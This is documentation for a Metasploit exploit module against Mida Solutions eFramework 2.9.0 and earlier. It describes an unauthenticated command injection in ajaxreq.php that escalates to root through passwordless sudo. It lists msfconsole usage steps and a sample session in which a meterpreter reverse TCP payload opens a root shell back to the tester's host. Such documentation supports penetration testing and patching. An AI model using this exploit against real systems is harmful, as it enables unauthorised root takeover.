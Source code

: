 ## Vulnerable Application

This module exploits a command injection vulnerability in
[Mida Solutions eFramework](https://www.midasolutions.com/)
version 2.9.0 and prior.

The `ajaxreq.php` file allows unauthenticated users to inject
arbitrary commands in the `PARAM` parameter to be executed as
the apache user. The sudo configuration permits the apache user
to execute any command as root without providing a password,
resulting in privileged command execution as root.

This module has been successfully tested on Mida Solutions
eFramework-C7-2.9.0 virtual appliance.

Download:

http://ova-efw.midasolutions.com/

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### TARGETURI

Base path to eFramework (Default: `/`)

## Scenarios

```
msf6 > use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set rhosts 172.16.191.123
rhosts => 172.16.191.123
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > check
[+] 172.16.191.123:443 - The target is vulnerable.
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (3008420 bytes) to 172.16.191.123
[*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.123:42452) at 2020-08-30 08:42:27 -0400
[*] Command Stager progress - 100.00% done (897/897 bytes)

meterpreter > getuid
Server username: root @ eFramework-1 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.16.191.123
OS           : CentOS 7.6.1810 (Linux 3.10.0-957.10.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
